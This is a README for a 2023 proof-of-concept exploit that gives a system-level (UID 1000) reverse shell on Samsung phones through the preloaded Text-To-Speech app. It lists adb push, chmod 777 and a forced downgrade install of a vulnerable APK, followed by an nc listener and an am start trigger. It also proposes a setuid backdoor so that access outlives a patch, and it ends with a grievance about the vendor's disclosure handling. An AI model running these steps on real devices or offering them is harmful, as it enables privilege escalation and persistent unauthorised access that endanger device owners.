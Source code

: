 # K0mraid3s_System_Shell-Source
 Source code for K0mraid3s 2023 System Shell PoC
As seen on XDA before the public disclousure was removed by XDA Moderators. 

If you just need this prebuilt, see this repo https://github.com/k0mraid3/K0mraid3s-System-Shell

This PoC Should point at localhost port 9997, so nc -lp 9997 into it once built. 

Step 1 - Install the included "komraids_POC_V1.6.apk" to the device, then push the included "samsungTTSVULN2.apk" to /data/local/tmp (adb push samsungTTSVULN2.apk /data/local/tmp) -> Chmod 777 /data/local/tmp/samsungTTSVULN2.apk >>> I advice disabling all battery optimizations for Samsung TTS and Shell, otherwise, it cuts off the shell from time to time.

Step 2 - Make sure ADB is on, Connected and authorized and all power saving is off (as mentioned above) Reboot device.

Step 4 - When device reboots, run this command from ADB. adb shell pm install -r -d -f -g --full --install-reason 3 --enable-rollback /data/local/tmp/samsungTTSVULN2.apk ---> it will return "Success" when done.

Step 5 - Now, open two shells, in the first, do nc -lp 9997 & in the second, do am start -n com.samsung.SMT/.gui.DownloadList -> Look back at the first shell., it should have opened into a new system (UID 1000) shell.

Some things to note: We can use localhost or staric IP, this basically uses a trick with the libmstring and netcat to open a reverse shell in the context of Samsung Text-To-Speech, a preloaded system app on all samsung mobile devices. Once as system, we could find a dir/make a dir somewhere, with a script to get back in, chmod a+s and make a backdoor to outlive a patch of this too...

Its hit or miss, this thing has a personality of its own sometimes in the  sense it will work, or it wont, just keep trying to nc -lp into the shell, its there.

About this project:
Its full or drama and BS. I reported this to Samsung in October 2022, but they have decided this is GOOGLES problem and forgot to tell me their decision. LONG STORY CUT SHORT, Between the time Samsung decided this was GOOGLES problem and them telling me of that decision, somehow, "another external security researcher" reported this exact thing to google in the context it was their find. IDK who, nor do I really care at this point. Its done and over with, but stuff like this is what makes some security researches ever hesitant to share their finds, even with the shady vendors/OEMS.
